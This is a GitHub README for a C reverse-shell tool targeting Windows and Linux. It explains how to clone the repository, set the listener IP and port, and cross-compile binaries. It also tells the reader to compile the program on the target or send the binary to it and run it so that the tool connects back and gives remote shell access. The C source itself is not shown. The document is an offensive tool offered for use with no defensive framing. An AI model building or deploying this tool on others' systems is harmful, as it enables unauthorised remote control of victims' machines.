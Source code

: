 # c-reverse-shell

## Info

A reverse shell for Windows and Linux written in C.

Features:
- Works on Linux and Windows.
- Just one `.c` file.
- Runs in the background (on both, Linux and Windows).
- You can choose between waiting for the client (if it's no listening) or not.
- Compile with just one command (see at the bottom of the `README.md`), there is also a `Makefile`.

## Dependencies

For Windows you will need `mingw-w64` compiler (the `.exe` binary is compiled in linux):
```sh
sudo apt install gcc-mingw-w64
```

## How to use

1. Clone repo:
```sh
git clone https://github.com/izenynn/c-reverse-shell.git
```

2. Change the `CLIENT_IP` and `CLIENT_PORT` in the file `reverse-shell.c` (lines 20 and 21):
```diff
 /* ================================================== */
 /* |      CHANGE THIS TO YOUR IP AND YOUR PORT      | */
 /* ================================================== */
-#define CLIENT_IP "0.0.0.0"
-#define CLIENT_PORT (int)0
+#define CLIENT_IP "XXX.XXX.XXX.XXX"
+#define CLIENT_PORT (int)XXXX
 /* ================================================== */
```


3. Compile for Linux and Windows with `make` (equivalent to `make all`):
```sh
make
```

4. And ✨ magic ✨ compile the program in your target, or just send the binary, and execute it, make sure your client is listening 😊.

Additionally you can compile with `WAIT_FOR_CLIENT` true, this will make the program loop until the connection to the client is established, instead of returning an error in the connection:
```sh
make WAIT_FOR_CLIENT=TRUE
```
*NOTE: this doen't work on windows, not sure why, but I'm sleepy, so maybe I fix it another day (or pull request if you fix it please 😊).*

Other `Makefile` rules:
- `make all`
- `make linux`
- `make windows`
- `make re`
-
- `make all WAIT_FOR_CLIENT=TRUE`
- `make linux WAIT_FOR_CLIENT=TRUE`
- `make windows WAIT_FOR_CLIENT=TRUE`
- `make re WAIT_FOR_CLIENT=TRUE`
-
- `make clean`

In case you don't have the `Makefile`, just copy the `reverse-shell.c` file and compile it with the following command:
- Linux
```sh
gcc -std=c99 -o rsh.out reverse-shell.c -D LINUX
```
```sh
gcc -std=c99 -o rsh.out reverse-shell.c -D LINUX -D WAIT_FOR_CLIENT
```
- Windows:
```sh
i686-w64-mingw32-gcc-win32 -std=c99 -o rsh.exe reverse-shell.c -D WIN32 -lws2_32
```
```sh
i686-w64-mingw32-gcc-win32 -std=c99 -o rsh.exe reverse-shell.c -D WIN32 -lws2_32 -D WAIT_FOR_CLIENT
```

##
[![forthebadge](https://forthebadge.com/images/badges/made-with-c.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/thats-how-they-get-you.svg)](https://forthebadge.com)
